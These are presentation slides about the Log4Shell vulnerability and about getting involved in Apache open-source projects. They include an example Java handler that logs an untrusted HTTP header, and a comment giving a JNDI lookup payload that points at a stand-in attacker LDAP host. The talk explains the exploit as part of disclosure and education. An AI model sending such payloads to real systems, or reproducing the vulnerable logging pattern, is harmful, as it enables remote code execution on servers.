



Log4jshell The Inside Story
Get involved and help with Open Source Software. Because we certainly need help!
Created by Rob Tompkins (chtompki)
Presentation Address: http://www.robtompkins.com/log4shell-the-inside-story
Who is this guy?
- Mathematician and Logician by schooling.
- Software and Infrastructure Developer in Java, Python, DevOps, and Security.
- Worked in financial and news sectors.
- Project management committee for Apache Commons, Apache Member, and VP Jakarta EE Relations.
- Adventure sports athlete (whitewater kayaking, rock climbing, and mountain biking).

Before we get started, does anyone not know what an open source project is?
The log4j exlpoit?
public void handle(HttpExchange he) throws IOException {
String apiVersion = he.getRequestHeader("X-Api-Version");
// This line triggers the RCE by
// logging the attacker-controlled HTTP header.
// The attacker can set their X-Api-Version
// header to: ${jndi:ldap://some-attacker.com/a}
log.info("Requested Api Version:{}", apiVersion);
String response = "<h1>Hello from: "
+ apiVersion + "!</h1>";
he.sendResponseHeaders(200, response.length());
OutputStream os = he.getResponseBody();
os.write(response.getBytes());
os.close();
}
What versions of Log4j were affected?
- Almost all versions of log4j version 2 are affected.
- 2.0-beta9 <= Apache log4j <= 2.14.1
How bad was the "bleeding"?
- Luckily Sonatype has a dashboard for us.

Here's the URL to the Dashboard
https://www.sonatype.com/resources/log4j-vulnerability-resource-center
Conjecture about timelines.
Issues that need to be fixed long term
- Remediation of production software containing the bug!
- We in the Open Source world need more help finding bugs!!!!
- Come help! Find me and ask how you can get involved.
Why not write internal libraries?
- Standardization of libraries.
- More eyes = fewer bugs.
- Long term support.
[Benedikt] Ritter's Law
Everything that is not part of our domain/business logic or the crazy legacy systems with which we need to integrate has already been developed by somebody much smarter than we are....
Don't re-invent the wheel!
Why did I get involved?
- I thought that I would have "spare time" during the paternity leave for my second daughter's birth.
- To keep my mathematics sharp(er).
- Career advancement?
- You're not constrained by timelines...you can get it right.
Ok, so what do you do to get involved?
- Pick a subject that you're passionate about.
- Pick a project that you already work with regularly.
- If it's on git check the stats page to see who frequent committers are. For example consider this github contributors page

How to ask people what to work on?
- Find emails or mailing lists.
- For example consider this link from the
[lang]README.md: user mailing list. - Email someone directly.

Regarding privileges
(commit, voting, establishing votes, ect.)
Clearly this is all community dependent, but commons (and Apache generally) has the following:
- user - anyone consuming the software.
- contributor - anyone who has made a contribution.
-
committer - anyone who can commit directly
- Can make any changes to site or component.
- Can present votes.
- Can perform releases (according to the process).
Regarding privileges
(commit, voting, establishing votes, ect.)
- committee member - has voting privileges
- Voting privileges particularly matter with releases, new components, and such.
- Proposing new committers.
- committee chair - prepares the quarterly reports......ugh.
Other Open Source Security Measures
- Static analysis software:
- Formatting/readability (e.g. Checkstyle or linting)
- Security analysis (e.g. ShiftLeft, others)
- Dependency Mapping (e.g Dependabot)
Questions?
Appendix/Citations.
- https://www.bloomberg.com/news/articles/2021-12-12/companies-rush-to-fix-software-exploit-after-u-s-warning#xj4y7vzkg
- https://www.bloomberg.com/news/articles/2021-12-13/how-apache-raced-to-fix-a-potentially-disastrous-software-flaw
- https://www.bloomberg.com/press-releases/2021-12-17/cybeats-addresses-widespread-log4j-vulnerability
- https://aws.amazon.com/security/security-bulletins/AWS-2021-006/
- https://aws.amazon.com/message/12721/
- https://news.apache.org/foundation/entry/apache-software-foundation-statement-on
- https://aws.amazon.com/blogs/publicsector/aws-resources-to-address-apache-log4j-vulnerabilities/